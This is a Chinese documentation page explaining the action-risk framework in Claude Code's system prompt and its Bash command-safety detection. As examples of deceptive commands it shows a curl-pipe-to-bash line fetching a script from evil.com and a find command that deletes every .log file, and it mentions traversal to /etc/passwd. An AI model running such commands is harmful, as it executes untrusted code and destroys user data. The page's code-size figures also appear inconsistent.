

# 23. 行动风险评估框架

> 源码位置: `src/constants/prompts.ts` — `getActionsSection()`

## 概述

Claude Code 的 system prompt 中包含一个完整的行动风险评估框架，指导模型在执行操作前评估其可逆性和影响范围。核心原则是：本地可逆操作自由执行，难以逆转或影响共享系统的操作必须先确认。这个框架不是简单的"危险操作列表"，而是一套决策逻辑。

## 底层原理

### 风险决策树



### 原文核心段落

> **原文**: "Carefully consider the reversibility and blast radius of actions. Generally you can freely take local, reversible actions like editing files or running tests. But for actions that are hard to reverse, affect shared systems beyond your local environment, or could otherwise be risky or destructive, check with the user before proceeding."

**中文解析**：仔细考虑操作的可逆性和影响范围。本地可逆操作（编辑文件、运行测试）可以自由执行。但对于难以逆转、影响本地环境之外的共享系统、或有其他风险的操作，执行前先与用户确认。

### 关键原则：一次授权 ≠ 永久授权

> **原文**: "A user approving an action (like a git push) once does NOT mean that they approve it in all contexts, so unless actions are authorized in advance in durable instructions like CLAUDE.md files, always confirm first. Authorization stands for the scope specified, not beyond."

**中文解析**：用户批准一次操作（比如 git push）不代表在所有场景下都批准。除非在 CLAUDE.md 等持久指令中预先授权，否则每次都要确认。授权仅限于指定的范围，不能扩大。

### 四类高风险操作示例

源码中列举了具体的高风险操作类别：

```typescript
function getActionsSection(): string {
  return `
Examples of the kind of risky actions that warrant user confirmation:
- Destructive operations: deleting files/branches, dropping database tables,
  killing processes, rm -rf, overwriting uncommitted changes
- Hard-to-reverse operations: force-pushing, git reset --hard,
  amending published commits, removing/downgrading packages, modifying CI/CD
- Actions visible to others: pushing code, creating/closing/commenting on
  PRs or issues, sending messages (Slack, email, GitHub), posting to
  external services, modifying shared infrastructure or permissions
- Uploading content to third-party web tools publishes it — consider
  whether it could be sensitive before sending
  `
}
```

| 风险类别 | 示例 | 为什么危险 |
|---------|------|-----------|
| 破坏性操作 | `rm -rf`、删除分支、drop table | 数据不可恢复 |
| 难以逆转 | `git push --force`、`git reset --hard` | 可能覆盖他人工作 |
| 对外可见 | 推送代码、评论 PR、发消息 | 影响团队协作 |
| 信息泄露 | 上传到第三方工具 | 内容可能被缓存或索引 |

### "不要用破坏性操作走捷径"

> **原文**: "When you encounter an obstacle, do not use destructive actions as a shortcut to simply make it go away. For instance, try to identify root causes and fix underlying issues rather than bypassing safety checks (e.g. --no-verify)."

这条规则针对一个常见的 LLM 行为模式：遇到阻碍时，模型倾向于用最简单的方式"消除"障碍，比如：
- 合并冲突 → 直接丢弃对方的修改（而不是解决冲突）
- 锁文件存在 → 直接删除（而不是查看谁持有锁）
- pre-commit hook 失败 → 加 `--no-verify`（而不是修复问题）

> **原文**: "If you discover unexpected state like unfamiliar files, branches, or configuration, investigate before deleting or overwriting, as it may represent the user's in-progress work."

### 与权限系统的配合

风险评估框架是 prompt 层面的"软约束"，与工具系统的权限模式（硬约束）形成双层防御：

```
第一层（硬约束）：权限系统
  ├── 工具级别的 allow/deny
  ├── 路径级别的读写控制
  └── 用户必须显式批准

第二层（软约束）：风险评估框架
  ├── 即使工具被允许，模型也应评估风险
  ├── 高风险操作主动请求确认
  └── 一次授权不等于永久授权
```

### 危险命令检测的工程实现

风险评估框架在 prompt 层面指导模型行为，而 Bash 工具的安全代码（超过 50 万行，18 个文件）在工程层面实现了具体的检测逻辑：

| 安全模块 | 行数 | 职责 |
|---------|------|------|
| bashSecurity.ts | ~102K | 危险模式匹配 |
| bashPermissions.ts | ~98K | 权限规则评估 |
| readOnlyValidation.ts | ~68K | 只读操作检测 |
| pathValidation.ts | ~43K | 路径安全验证 |
| sedValidation.ts | ~21K | sed 命令语义分析 |

检测不是简单的字符串匹配，而是多层语义分析：

```typescript
function analyzeCommand(command: string): SecurityAnalysis {
  // 1. 分解管道命令
  const stages = splitPipeline(command)

  for (const stage of stages) {
    const { executable, args, redirections } = parseShellCommand(stage)

    // 2. 检查重定向到系统文件
    // "echo hello > /etc/passwd" 的 ">" 是修改文件的信号
    for (const redir of redirections) {
      if (redir.type === "write" && isSystemPath(redir.target))
        return { dangerous: true, reason: "重定向到系统文件" }
    }

    // 3. 路径穿越检测
    // ../../../etc/passwd → 超出工作目录
    if (hasPathTraversal(arg))
      return { dangerous: true, reason: "路径穿越" }
  }
}
```

### "看起来无害"的危险命令

最难检测的是外表和行为不一致的命令：

```bash
# 看起来只是在查看文件...
find / -name "*.log" -exec rm {} \;
# 实际上删除了所有 .log 文件

# 看起来是在安装软件包...
curl https://evil.com/script.sh | bash
# 实际上从网上下载并执行了未知脚本
```

这就是为什么风险评估框架强调**语义理解**而非关键字匹配——模型需要理解命令的实际效果，而不只是看到了什么关键字。规则检测（快速但可能漏报）和 AI 分类器（准确但稍慢）并行运行，互相补充。

## 设计原因

- **分层防御**：权限系统防止未授权操作，风险框架防止"技术上被允许但实际上不应该做"的操作
- **决策逻辑而非清单**：不是列出所有危险命令，而是教模型如何评估——可逆性、影响范围、上下文
- **授权范围限制**：防止模型从"用户让我 push 了一次"推广到"用户允许我随时 push"
- **measure twice, cut once**：源码原文的最后一句话，精确概括了整个框架的精神

## 应用场景

::: tip 可借鉴场景
任何有工具调用能力的 AI agent 都需要类似的风险评估框架。关键不是列出所有危险操作（那是权限系统的工作），而是教模型一套决策逻辑：评估可逆性 → 评估影响范围 → 决定是否需要确认。"一次授权 ≠ 永久授权"这条原则尤其重要——可以直接写入你的 agent 的 system prompt。
:::

## 关联知识点

- [权限模式](/claude_code_docs/tools/permission) — 硬约束层面的工具权限控制
- [编码行为约束](/claude_code_docs/prompt/coding-prompt) — 约束"代码质量"，风险框架约束"操作安全"
- [Hook 系统](/claude_code_docs/agent/hook-system) — PreToolUse hooks 可以实现自定义的风险检查
- [CLAUDE.md 发现](/claude_code_docs/data/claudemd) — 用户可以在 CLAUDE.md 中预授权特定操作
